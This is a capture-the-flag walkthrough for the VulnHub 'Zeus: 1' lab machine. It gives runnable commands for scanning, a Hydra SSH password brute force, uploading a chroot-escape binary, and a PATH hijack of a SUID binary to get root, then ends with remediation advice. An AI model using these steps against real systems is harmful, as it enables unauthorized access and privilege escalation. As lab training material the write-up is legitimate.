





# Zeus: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.131.170 (static) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | root.txt (see screenshot) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/zeus-1,587/) |

## Attack Summary

nmap → dirb `/telecom/` → username `gogu` in source → Hydra SSH brute (`universal`) → restricted Jailkit shell → SUID `sysdate` + PATH hijack with compiled chroot-escape binary → root

## Methodology

1. Network discovery
2. Port scan and web enumeration
3. SSH brute-force (hydra)
4. Jailkit restricted shell escape
5. SUID + PATH hijacking to root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
```

Target at 192.168.131.170 (static assignment).

---

## Step 2: Port Scan

```bash
nmap -A 192.168.131.170
```

Open ports: 21 (FTP), 22 (SSH), 80 (HTTP).



---

## Step 3: Web Enumeration

```bash
dirb http://192.168.131.170/
```

Dirb finds `/telecom/`. Browsing the page source reveals the username `gogu`.



---

## Step 4: SSH Brute-Force

```bash
hydra -l gogu -P /usr/share/wordlists/rockyou.txt 192.168.131.170 ssh
```

Password found: `universal`

```bash
ssh gogu@192.168.131.170
id
cat user.txt
ls -la
```

The shell is restricted by **Jailkit** — a chroot-based jail.



---

## Step 5: Enumerate SUID Binaries

```bash
ls -lRah
```

A binary named `sysdate` has the SUID bit set. Direct PATH hijacking failed inside the jailkit environment.

---

## Step 6: Compile Jailkit Escape Binary

On the attacker machine, compile a public chroot-escape exploit:

```bash
apt install gcc-multilib -y
# Download bypass.c (filippo.io chroot escape PoC)
gcc bypass.c -o bypass -m32
```

Upload to the target:

```bash
ssh gogu@192.168.131.170 "cat> bypass" < bypass
```

---

## Step 7: PATH Hijack via SUID

```bash
ssh gogu@192.168.131.170
ls
chmod 777 bypass
echo "/home/gogu/bypass" > date
chmod 777 date
export PATH=/home/gogu:$PATH
/home/gogu/.../sysdate
id 1<&2
cd /root
cat root.txt
```

The `sysdate` binary calls `date` without an absolute path. With a malicious `date` in PATH pointing to the chroot-escape binary, we break out of the jail and escalate to root.





---

## Lessons Learned

1. **Jailkit restricted shells** can be escaped when SUID binaries execute external commands without absolute paths
2. **PATH hijacking** against SUID binaries is a classic privesc — always use absolute paths in SUID code
3. **Source code comments** exposing usernames accelerate brute-force attacks significantly
4. **Weak SSH passwords** (`universal`) are trivially cracked by rockyou — enforce strong password policy

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Username in HTML source | Remove developer comments before production |
| Weak SSH password | Enforce minimum complexity; disable password auth, use keys |
| SUID binary with relative PATH | Use absolute paths in all system() / exec() calls |
| Jailkit escape via SUID | Audit all SUID binaries accessible from jailed users |
